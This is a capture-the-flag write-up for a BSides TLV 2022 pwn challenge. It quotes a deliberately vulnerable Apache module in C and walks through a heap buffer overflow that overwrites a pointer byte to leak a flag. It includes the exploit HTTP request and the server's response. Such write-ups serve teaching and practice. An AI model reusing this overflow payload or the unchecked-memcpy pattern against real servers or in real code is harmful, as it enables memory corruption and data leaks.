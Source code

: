 # BSides TLV CTF 2022 - [https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)
Pwn, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)

Attached file [mod_pwn.tar.gz](./mod_pwn.tar.gz) 

## To Note Solution

By extracting the tar.gz file we can the following files:
```console
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/pwn/mod_pwn]
└──╼ $ tree
.
├── Dockerfile
├── httpd.conf
├── Makefile
├── mod_pwnable.c
├── mod_pwnable.so
└── mod_pwn.tar.gz

0 directories, 6 files
```

By observing the source code we can see the flag on the static variables:
```c
...
#define ERR_NAME_TOO_LONG -1
#define MAX_NAME_SIZE 128 
const char flag[] = "BSidesTLV2022{n4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}}";
const char footer[] = "\n<hr /> can u pwn me?\n\n";
...
```

We can see also the following function:
```c
static int pwnable_handler(request_rec *r)
{
    /* Init welcome object */
    welcome_msg_obj welcome_msg;
    memset(&welcome_msg, NULL, sizeof(welcome_msg));
    welcome_msg.suffix = &footer;
    strcpy(welcome_msg.color, "blue");

    /* Set the appropriate content type */
    ap_set_content_type(r, "text/html");
    
    /* Verify HTTP request method */
    if (strcmp(r->method, "GET") == OK) {
        ap_rputs("<h1>BSidesTLV 2022 Apache module!</h1> <br/>", r);
        if (r->args) {
            fetch_name_param(r, &welcome_msg.name);
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
        else {
             ap_rprintf(r, "<form>\n");
             ap_rprintf(r, "Enter your name: <input type='text' name='name'> -> <input type='submit' />\n");
             ap_rprintf(r, "</form>\n");
        }
    }
    return OK;
}
```

As we can see, ```welcome_msg.suffix``` get the address of ```footer``` which locate on the memory near the flag.

Next, We can see [Buffer Overflow](https://ctf101.org/binary-exploitation/buffer-overflow/) on ```fetch_name_param``` function:
```c
static void fetch_name_param(request_rec *r, char *out) {
    char *name = &r->args[5]; // skipping the "?name=" prefix
    if(strlen(name) > sizeof(welcome_msg_obj)) {
        char *msg = apr_palloc(r->pool, MAX_NAME_SIZE); // CTF Note: The way `apr_palloc` works should NOT be a concern when trying to solve this challenge. Treat it as if it was a traditional `malloc` call.
        sprintf(msg, "Error, name too long: %.16s...", name);
        raise_error(ERR_NAME_TOO_LONG, out, msg); 
    } else {
        memcpy(out, name, strlen(name));
    }
    ap_unescape_urlencoded(out);
}
```

The function doesn't check the length of ```name``` before calling to ```memcpy``` function.

```memcpy``` get three params, ```out``` which is ```welcome_msg.name``` which is the source, ```name``` which is the user input as dest, and the length of ```name```.

```welcome_msg_obj``` struct is:
```c
typedef struct _welcome_msg_obj {
    char name[MAX_NAME_SIZE];
    char *suffix;
    char color[32];
} welcome_msg_obj;
```

We can see that ``name``` locate before ```suffix``` on the memory, Meaning that we can overwrite the ```suffix``` variable.

Because ```suffix``` locate close to the ```flag``` on the memory we can overwrite the last byte of ```suffix``` to make ```suffix``` point to the ```flag``` variable.

We can imagine this like that in the memory:
```
...
&flag	0x006b7b3c
&footer	0x006b7b78 
...
```

Because we can overwrite ```suffix``` variable (which point to the address of ```footer```) we can make ```suffix``` to point on the flag.

```suffix``` varbile is print to the page on  ```pwnable_handler``` function:

```c
static int pwnable_handler(request_rec *r)
{
    ...
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
    ...
    return OK;
}
```

So we just need to send ```128``` bytes to fill ```name``` array and then we need to send another byte to overwrite the last byte of ```suffix``` to get the flag.

Because we don't know what is the flag size we need to do a type of brute force.

After a few guessing, we found the character ```+``` is the offset between ```suffix``` to ```flag```.

We can get the flag by sending the following HTTP request:
```HTTP
GET /ctf?name=yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy+ HTTP/2
Host: mod-pwn.ctf.bsidestlv.com
Cookie: bsidestlv-ctf-session=5fb7eed40a3353355d5070baf624f3df|6249ddd6c7fc469ba9a96304f8d57c7b
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://mod-pwn.ctf.bsidestlv.com/ctf
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7


```

Response:
```
HTTP/2 200 OK
Date: Sat, 02 Jul 2022 22:19:55 GMT
Content-Type: text/html
Content-Length: 280
Set-Cookie: bsidestlv-ctf-session=ed0838bcfaa56e3df80f9b6edceb7d6d|6249ddd6c7fc469ba9a96304f8d57c7b; Max-Age=360; Path=/; Secure; HttpOnly
Strict-Transport-Security: max-age=15724800; includeSubDomains

<h1>BSidesTLV 2022 Apache module!</h1> <br/>Welcome, <font color='blue'>yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy ao
</font> 
<br />
BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}
```

And we get the flag ```BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}```.